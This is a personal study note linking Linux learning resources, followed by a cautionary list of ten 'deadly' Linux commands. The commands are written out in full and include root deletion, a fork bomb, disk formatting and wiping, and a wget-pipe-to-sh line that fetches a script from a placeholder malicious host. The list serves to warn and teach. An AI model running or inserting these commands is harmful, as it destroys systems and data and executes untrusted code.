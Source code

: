 ```yaml
---
created: 2024-02-12T23:29
updated: 2025-03-11T20:20
share_link: https://share.note.sx/ej070ee9#d4FdX8CIb0FbLC+elE2ISplriX2eaABOFM+S2hstZ68
share_updated: 2024-10-16T17:24:48+02:00
---
```

creator for linux suggested: [LearnTheShell – Medium](https://medium.com/@learntheshell) & [Audrey's weBlog & reViews – Medium](https://medium.com/@audrey_evans)

risorse utili: [TCM - Linux 101 | TCM Security Academy Notes - by syselement](https://blog.syselement.com/tcm/courses/linux-101)

101 Linux command ebook :   [ebook](https://mega.nz/file/LI0SlARB#NJpt2GNVmAHPjZUYUWlE7w3U4ZQwkwhJEj42wU3-ivY)

*Top 10 Deadly Linux Commands You Should Never Run (Unless You Want Chaos)*

```bash
1. rm -rf /
Deletes everything from the root directory without warning.
Result: Total system wipe.

2. :(){ :|:& };: (Fork Bomb)
Creates infinite processes to crash your system.
Result: System freeze or crash.


3. mkfs.ext4 /dev/sdX
Formats the given disk.
Result: Complete data loss.

4. dd if=/dev/zero of=/dev/sdX
Overwrites the disk with zeros.
Result: Irrecoverable data wipe.

5. chmod -R 000 / or chmod -R 777 /
Changes permissions for all files.
Result: System becomes unusable or insecure.

6. mv / /dev/null
Moves your entire root directory into nothingness.
Result: Say goodbye to your OS.

7. >/dev/sda
Overwrites the boot sector.
Result: System won't boot.

8. yes > /dev/sda
Fills your disk with infinite "yes".
Result: Disk corruption.

9. find / -name "important_file" -exec rm -rf {} \;
Deletes every file named "important_file".
Result: Selective, but permanent deletion.

10. wget http://malicious-url.com -O- | sh
Downloads and runs a script from the internet.
Result: Malware attack.
```
